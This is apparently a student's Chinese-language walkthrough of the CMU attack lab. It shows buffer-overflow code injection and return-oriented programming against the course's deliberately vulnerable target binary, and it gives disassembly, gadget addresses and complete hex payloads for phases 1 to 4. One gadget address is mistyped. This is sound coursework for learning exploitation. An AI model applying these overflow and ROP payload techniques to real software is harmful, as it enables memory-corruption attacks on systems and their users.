



## Description
- 分为两种attack: 1)Code Injection Attacks 2)Return-Oriented Programming
- 由于executable program的执行逻辑是要上传到CMU评分系统，我们自己本地做的时候要在command line 填入 -q，否则会有authetication error
- gdb -tui ctarget / run -q

## Code Injection Attack
### phase_1 touch_1
1. 0000000000401968 <test>
2. code injection attack, 将touch_1函数的地址(0x4017c0)覆盖掉getbuf调用后返回的return value
3. sub $0x28, %rsp 在栈上开辟了40bytes的空间，return value 就存储在 %rsp + 0x28为起始地址的位置
4. 所以我么只需要利用hex2raw生成40bytes的dummy string + 函数touch_1的little-endian形式的地址即可
5. 答案: input.txt 中 40 *aa c0 17 40, ./hex2raw < input.txt > stage1.txt
6. ./target < stage1.txt 即可通过


```asm
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```

### phase_2 touch_2
1. 00000000004017ec <touch2> | 
2. injection code的地址必须在当前%rsp所指向的范围内，调用%rsp范围以外的code会产生segmentation fault
3. touch_2的思路是将getbuf()在栈上的return address改为injection code的起始地址，而injection code 需要用assembly instruction retq实现跳转到touch_2
4. touch_2需要我们传入cookie值到%rdi作为函数的入参，所以我们编写的assembly code 只需要两条指令：
```asm
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi #将cookie值$0x59b997fa传入%rdi中
   7:   e8 00 00 00 00          callq  0xc
```
5. 当我们从getbuf() return的时候%rsp指向test()开辟的栈的底部，我们要把<touch2>的地址填入到这里作为injection code运行结束后的跳转地址
6. assembly code不需要以litte-endian的形式填写，因为这是reverse engineering 生成的汇编代码，也就是机器上实际运行的代码



```asm
0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:   c3                      retq
```
```asm
"level2Instruct.txt" 9L, 193C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
48 c7 c7 fa 97 b9 59 c3
```


### phase_3 touch_3
1. 思路与touch_2基本一样，只不过touch_3调用了一个hexmatch()函数，将cookie值解码成ascii字符串(0x59b997fa -> 35 39 62 39 39 37 66 61),我们需要通过injection code将“3539623939376661”存储在touch_3和hexmatch 栈空间接触不到的地方(否则会覆盖我们的字符串)，然后将存储的字符串的地址传递给%rdi, touch_3会把我们存储的字符串与hexmatch生成的cookie值的字符串进行比较，如果相等，touch3就完成了
2. 只要把字符串存在test 函数高地址空间的位置，这样hexmatch就无法overwrite我们存储的字符串，因为stack都是向更低的地址空间方向开辟新的地址
```c
int hexmatch(unsigned val, char *sval)
{
  char cbuf[110];
  /* Make position of check string unpredictable */ 
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */ if (hexmatch(cookie, sval)) {
          printf("Touch3!: You called touch3(\"%s\")\n", sval);
          validate(3);
      } else {
          printf("Misfire: You called touch3(\"%s\")\n", sval);
          fail(3); 
      }
  exit(0); }
```
```asm
0:   48 c7 c7 b0 dc 61 55    mov    $0x5561dcb0,%rdi
7:   c3                      retq
```
```asm
"level3Instruct.txt" 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00
48 c7 c7 b8 dc 61 55 c3
35 39 62 39 39 37 66 61
00 00 00 00
```


## Return Oriented Programming
第二截断ROP attack 多了两种stack protection mechanisms : 
> 1. It uses randomization so that the stack positions differ from one run to another. This makes it impos- sible to determine where your injected code will be > located.
> 2. It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the > > program would fail with a segmentation fault.
也就是说我们无法确切知道injected code的确切地址，因为栈空间的起始地址每次运行都是随机生成的，并且开辟出来的栈空间上的指令是nonexecutable。但是我们依然可以利用binary file中的程序主体的assembly code 截取部分代码并运行。farm.c 中的函数assembly code 就存在这样的漏洞可供我们利用。例如:
```asm
0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:       c3                      retq
```
48 89 e0 c3 这4bytes是相连接的，而48 89 e0所对应的assembly code 是movq %rsp, %rax; 这样我们可以在return address中注入addval_190地址0x401a03 + 0x3 的偏移，就能从getbuf跳转到<addval_190> + 0x3的位置并, 此时%rip program counter 指向0x401a06的位置并开始执行48 89 e0 c3指令


### phase_4
1. 与phase_2相同，我们要传递cookie值到%rdi,然后跳转到touch_2的地址
2. 观察farm.c的assembly code 发现，部分function的汇编代码可以用来做跳转和register之间的传值
```asm
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq

0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:       c3                      retq

0000000000401a11 <addval_436>:
  401a11:       8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:       c3                      retq

0000000000401a39 <addval_110>:
  401a39:       8d 87 c8 89 e0 c3       lea    -0x3c1f7638(%rdi),%eax
  401a3f:       c3                      retq

0000000000401a40 <addval_487>:
  401a40:       8d 87 89 c2 84 c0       lea    -0x3f7b3d77(%rdi),%eax
  401a46:       c3                      retq

0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq

00000000004019a7 <addval_219>:     -- pop rax
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```
3. <addval_219> 4019ab开始的指令58 90 c3 其中58对应popq %rax； 0x90对应nop；c3对应ret ｜ <addval_273> 4019a12开始的指令48 89 c7 c3 对应movq %rax, %rdi; ret
4. 有了这两条信息，我们可以将cookie值存储在栈空间，让程序首先跳转到0x4019ab, 将cookie值从栈上取出存入到%rax, ret返回后跳转到0x4019a12,将%rax 值传递给%rdi, ret返回后跳转到touch_2地址0x4017ec



```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```